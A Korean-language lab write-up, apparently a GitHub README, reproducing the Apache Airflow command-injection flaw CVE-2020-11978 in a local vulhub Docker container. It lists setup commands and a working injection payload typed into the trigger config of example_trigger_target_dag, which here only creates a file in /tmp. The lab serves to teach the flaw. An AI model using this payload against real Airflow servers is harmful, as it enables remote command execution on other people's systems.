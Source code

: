 #CVE-2020-11978 - Apache Airflow
개요]
Apache Airflow는 Python 기반의 워크플로우 스케줄링 도구로, DAG(Directed Acyclic Graph)를 기반으로 작업을 정의하고 실행합니다.  
버전 1.10.10 이전에는 `example_trigger_target_dag` 내 사용자 입력값이 필터링되지 않아, **명령어 인젝션(command injection)** 이 가능한 취약점이 발견되었습니다. 이 실습은 해당 취약점을 기반으로 취약한 컨테이너 환경을 구성하고, 공격 흐름을 직접 따라해보며 이해하는 데 목적이 있습니다.

실습 환경]
- Ubuntu 20.04 (VirtualBox 가상 머신)
- Docker + docker-compose
- Airflow 1.10.10 (vulhub 이미지 사용)

1. 취약 환경 구축]

vulhub 프로젝트를 클론한 뒤, Airflow 취약점 환경 디렉토리로 이동하여 컨테이너를 실행합니다.

git clone https://github.com/vulhub/vulhub.git

cd vulhub/airflow/CVE-2020-11978

sudo docker compose run airflow-init

sudo docker compose up -d


2. Airflow 관리 페이지 접속
브라우저에서 http://localhost:8080 접속하여 DAG 목록을 확인합니다.


3. 취약한 DAG 활성화 및 공격 시도
example_trigger_target_dag를 On으로 활성화하였습니다.


오른쪽 Trigger DAG 버튼을 클릭하였습니다.


그리고 다음과 같이 명령어 인젝션 페이로드를 입력하였습니다.
{"message":"'\";touch /tmp/airflow_dag_success;#"}

공격 시도 결과
sudo docker compose exec airflow-worker ls –l /tmp를 확인하면
`/tmp/airflow_dag_success` 파일이 생성되어 명령어 인젝션을 성공하게 됩니다.
